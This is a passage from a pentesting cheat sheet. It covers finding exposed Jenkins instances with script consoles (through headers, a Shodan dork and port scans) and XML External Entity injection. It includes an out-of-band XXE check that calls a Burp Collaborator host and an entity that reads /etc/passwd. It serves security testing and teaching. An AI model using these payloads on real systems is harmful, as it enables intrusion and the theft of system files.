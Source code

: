 
#### Unauthenticated Jenkins Instance

```powershell
Sometimes an application will be running Jenkins which allows Guest/Anonymous signups with /script enabled which allows code exec

Also if you can install plugins there is a terminal plugin

Try dirsearch for /script or use this script to find live Jenkins instances.

Also worth checking Port 8080 alongside 443,80


I recommened if you are working on a big program with thousands of domains to grep for jenkins and pipe all subdomains into full tcp ports scans. Sometimes the instance can be running on a weird port :) 


Also grep for these headers

X-Hudson: 1.395
X-Jenkins: 2.204.2
X-Jenkins-Session: d615ef86
X-You-Are-Authenticated-As: anonymous
X-You-Are-In-Group-Disabled: JENKINS-39402: 


Shodan Dork to Find Open Jenkins Instances

x-jenkins 200
```


#### XML External Entity (XXE)

```powershell

#https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

XML is essential a language designed to transport data in a structured format, ,similar to JSON.

Basic XXE Check

<?xml version="1.0" encoding="utf-8"?><!DOCTYPE data SYSTEM "http://123123123.burpcollaborator.net/m0chan.dtd"><data>&all;</data>

XXE is a vuln that occurs when an application parses XML. 


<?xml version="1.0"?>
<!DOCTYPE note [
<!ENTITY user "m0chan">
<!ENTITY message "m0chanmessage">
]>

In this example the ENTITY user holds the info m0chan which can be called with &user

Now this is useful as we get something called EXTERNAL ENTITY which will load the data from a external resource in comparison to something "local"

Examples:

<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://m0chan.github.io" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>

```